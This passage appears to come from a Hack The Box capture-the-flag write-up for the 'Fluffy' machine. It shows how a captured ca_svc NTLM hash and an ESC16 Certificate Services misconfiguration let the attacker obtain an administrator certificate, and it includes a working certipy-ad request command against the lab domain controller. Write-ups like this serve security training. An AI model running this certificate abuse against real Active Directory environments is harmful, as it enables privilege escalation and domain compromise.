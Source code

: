 ![](/assets/images/htb-writeup-fluffy/fluffy36.png)

With the hash for `ca_svc`, we can now request a certificate while authenticating as that user. Due to the modified UPN and the ESC16 misconfiguration, the Certificate Authority will issue a certificate for the `administrator` user. We use `certipy-ad req` to perform this action.

![](/assets/images/htb-writeup-fluffy/fluffy37.png)

```bash
certipy-ad req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User' -user 'ca_svc' -hashes ':ca0f4f9e8b8a092addf53bb03fc98c8'
```
The command successfully requests a certificate and saves it as `administrator.pfx`.

![](/assets/images/htb-writeup-fluffy/fluffy38.png)
